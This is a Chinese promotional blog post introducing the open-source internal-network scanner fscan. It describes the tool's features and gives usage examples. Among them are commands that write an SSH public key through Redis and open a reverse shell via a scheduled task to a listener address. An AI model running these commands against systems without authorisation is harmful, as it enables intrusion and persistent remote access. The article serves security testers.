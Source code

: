 ```yaml
---
layout: post
title: GitHub 开源项目 shadow1ng/fscan 介绍，一款内网综合扫描工具，方便一键自动化、全方位漏扫扫描。
tags: Go
---
```


大家好，又见面了，我是 GitHub 精选君！

###### 背景介绍

今天要给大家推荐一个 GitHub 开源项目 shadow1ng/fscan，该项目在 GitHub 有超过 9.2k Star。

![](https://stats.deeptrain.net/repo/shadow1ng/fscan/?theme=light)

一句话介绍该项目：一款内网综合扫描工具，方便一键自动化、全方位漏扫扫描。




![](https://raw.githubusercontent.com/shadow1ng/fscan/master/image/1.png)

![](https://raw.githubusercontent.com/shadow1ng/fscan/master/image/4.png)

![](https://raw.githubusercontent.com/shadow1ng/fscan/master/image/2.png)

![](https://raw.githubusercontent.com/shadow1ng/fscan/master/image/3.png)

![](https://raw.githubusercontent.com/shadow1ng/fscan/master/image/2020-12-12-13-34-44.png)

![](https://raw.githubusercontent.com/shadow1ng/fscan/master/image/netbios.png)

![](https://raw.githubusercontent.com/shadow1ng/fscan/master/image/netbios1.png)

![img.png](https://raw.githubusercontent.com/shadow1ng/fscan/master/image/live.png)

![](https://github.com/knownsec/404StarLink-Project/raw/master/logo.png)


###### 项目介绍

### fscan：一款全能型内网安全扫描工具

#### 背景介绍
随着信息技术的快速发展，企业内网的复杂程度日益增加，面对潜在的安全威胁，安全检测成为维护内网安全的重要手段。然而，传统的安全检测工具或服务往往仅覆盖有限的范围，无法全面评估和应对内网潜在的安全风险。特别是在大型网络环境中，信息搜集、漏洞扫描、服务爆破等多个阶段的工作量庞大，且极易漏洞令人头疼。针对这些问题，业界急需一种高效、全面的内网安全检测解决方案。

#### 

![](https://raw.githubusercontent.com/ZhuPeng/pic/master/mac/compress_tmp-496cbf55824923fcc20e0888cf8f0fcf.png)

项目介绍
[fscan](https://github.com/shadow1ng/fscan) 是一款强大的内网综合扫描工具，旨在为安全工程师提供一键自动化、全方位的漏扫扫描功能。该工具支持主机存活探测、端口扫描、常见服务的爆破、高危漏洞扫描如 ms17010、Redis 批量写公钥、计划任务反弹 shell、读取 Windows 网卡信息、Web 指纹识别、Web 漏洞扫描等功能，基本覆盖了内网安全检测的各个方面。此外，fscan 的设计理念注重易用性和效率，大大减轻了安全专家的工作负担。

#### 如何使用
fscan 的安装和使用相当简单，用户可以直接在 GitHub 上获取最新的可执行程序。以下是一些基本用法和示例：

- 简单用法:
```bash
fscan.exe -h 192.168.1.1/24  # 扫描整个C段，使用全部模块
```

- 指定模块和端口：
```bash
fscan.exe -h 192.168.1.1/24 -m ssh -p 2222 # 指定模块ssh和端口2222扫描
```

- Redis 写公钥和计划任务反弹 shell：
```bash
fscan.exe -h 192.168.1.1/24 -rf id_rsa.pub # Redis 写公钥
fscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666 # 计划任务反弹shell
```

对于 Linux 用户，可以使用 Arch Linux 的 AUR 安装：
```bash
yay -S fscan-git  # 或者 paru -S fscan-git
```

#### 项目推介
fscan 已经成为许多安全专家和组织在内网检测与评估工作中的首选工具。其不仅开发活跃，且作者 shadow1ng 是信息安全领域内知名人士，在业界拥有良好的口碑。此外，该项目也是 404Team 星链计划 2.0 的一部分，这个计划聚集了许多优秀的安全工具和专家，提供了丰富的资源和强有力的社区支持。凭借着强大的功能、简便的操作和活跃的社区支持，fscan 已经获得了广泛的认可和好评，无论是对于安全新手还是老手来说，都是一个值得入手和长期关注的工具。

以下是该项目 Star 趋势图（代表项目的活跃程度）：

![](https://api.star-history.com/svg?repos=shadow1ng/fscan&type=Timeline)

更多项目详情请查看如下链接。

开源项目地址：https://github.com/shadow1ng/fscan 

开源项目作者：shadow1ng

开源协议：

以下是参与项目建设的所有成员：

![](https://contrib.rocks/image?repo=shadow1ng/fscan)

关注我们，一起探索有意思的开源项目。

